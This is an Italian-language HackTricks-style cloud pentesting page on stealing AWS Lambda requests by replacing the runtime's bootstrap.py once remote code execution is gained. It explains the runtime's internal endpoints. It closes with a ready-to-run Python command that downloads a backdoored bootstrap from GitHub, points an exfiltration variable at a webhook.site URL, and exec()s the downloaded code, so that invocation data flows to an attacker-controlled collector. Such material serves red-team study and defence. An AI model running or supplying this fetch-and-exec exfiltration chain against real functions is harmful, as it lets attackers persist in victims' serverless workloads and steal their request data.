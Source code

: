 # AWS - Rubare Richieste Lambda

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository su github.

</details>
{% endhint %}

## Flusso Lambda

<figure><img src="../../../../.gitbook/assets/image (341).png" alt=""><figcaption><p><a href="https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png">https://unit42.paloaltonetworks.com/wp-content/uploads/2019/10/lambda_poc_2_arch.png</a></p></figcaption></figure>

1. **Slicer** è un processo al di fuori del container che **invia** **invocazioni** al processo **init**.
2. Il processo init ascolta sulla porta **9001** esponendo alcuni endpoint interessanti:
* **`/2018-06-01/runtime/invocation/next`** – ottieni il prossimo evento di invocazione
* **`/2018-06-01/runtime/invocation/{invoke-id}/response`** – restituisce la risposta del gestore per l'invocazione
* **`/2018-06-01/runtime/invocation/{invoke-id}/error`** – restituisce un errore di esecuzione
3. **bootstrap.py** ha un ciclo che ottiene invocazioni dal processo init e chiama il codice degli utenti per gestirle (**`/next`**).
4. Infine, **bootstrap.py** invia a init la **risposta**

Nota che bootstrap carica il codice dell'utente come modulo, quindi qualsiasi esecuzione di codice eseguita dal codice degli utenti avviene effettivamente in questo processo.

## Rubare Richieste Lambda

L'obiettivo di questo attacco è far eseguire al codice degli utenti un processo **`bootstrap.py`** dannoso all'interno del processo **`bootstrap.py`** che gestisce la richiesta vulnerabile. In questo modo, il processo **bootstrap dannoso** inizierà a **comunicare con il processo init** per gestire le richieste mentre il bootstrap **legittimo** è **intrappolato** eseguendo quello dannoso, quindi non chiederà richieste al processo init.&#x20;

Questo è un compito semplice da realizzare poiché il codice dell'utente viene eseguito dal processo **`bootstrap.py`** legittimo. Quindi l'attaccante potrebbe:

* **Inviare un risultato falso dell'invocazione corrente al processo init**, così init pensa che il processo bootstrap stia aspettando altre invocazioni.
* Una richiesta deve essere inviata a **`/${invoke-id}/response`**&#x20;
* L'invoke-id può essere ottenuto dallo stack del processo **`bootstrap.py`** legittimo utilizzando il modulo python [**inspect**](https://docs.python.org/3/library/inspect.html) (come [proposto qui](https://github.com/twistlock/lambda-persistency-poc/blob/master/poc/switch\_runtime.py)) o semplicemente richiedendolo di nuovo a **`/2018-06-01/runtime/invocation/next`** (come [proposto qui](https://github.com/Djkusik/serverless\_persistency\_poc/blob/master/gcp/exploit\_files/switcher.py)).
* Eseguire un **`boostrap.py`** dannoso che gestirà le prossime invocazioni
* Per scopi di furtività è possibile inviare i parametri delle invocazioni lambda a un C2 controllato dall'attaccante e poi gestire le richieste come al solito.
* Per questo attacco, è sufficiente ottenere il codice originale di **`bootstrap.py`** dal sistema o da [**github**](https://github.com/aws/aws-lambda-python-runtime-interface-client/blob/main/awslambdaric/bootstrap.py), aggiungere il codice dannoso ed eseguirlo dall'invocazione lambda corrente.

### Passaggi dell'Attacco

1. Trovare una vulnerabilità **RCE**.
2. Generare un **bootstrap** **dannoso** (es. [https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py](https://raw.githubusercontent.com/carlospolop/lambda\_bootstrap\_switcher/main/backdoored\_bootstrap.py))
3. **Eseguire** il bootstrap dannoso.

Puoi facilmente eseguire queste azioni eseguendo:
```bash
python3 <<EOF
import os
import urllib3

# Download backdoored bootstrap
http = urllib3.PoolManager()
backdoored_bootstrap_url = "https://raw.githubusercontent.com/carlospolop/lambda_bootstrap_switcher/main/backdoored_bootstrap.py"
new_runtime = http.request('GET', backdoored_bootstrap_url).data

# Load new bootstrap
os.environ['URL_EXFIL'] = "https://webhook.site/c7036f43-ce42-442f-99a6-8ab21402a7c0"

exec(new_runtime)
EOF
```
Per ulteriori informazioni, controlla [https://github.com/carlospolop/lambda\_bootstrap\_switcher](https://github.com/carlospolop/lambda\_bootstrap\_switcher)

## Riferimenti

* [https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/](https://unit42.paloaltonetworks.com/gaining-persistency-vulnerable-lambdas/)

{% hint style="success" %}
Impara e pratica AWS Hacking:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
Impara e pratica GCP Hacking: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repository su github.

</details>
{% endhint %}
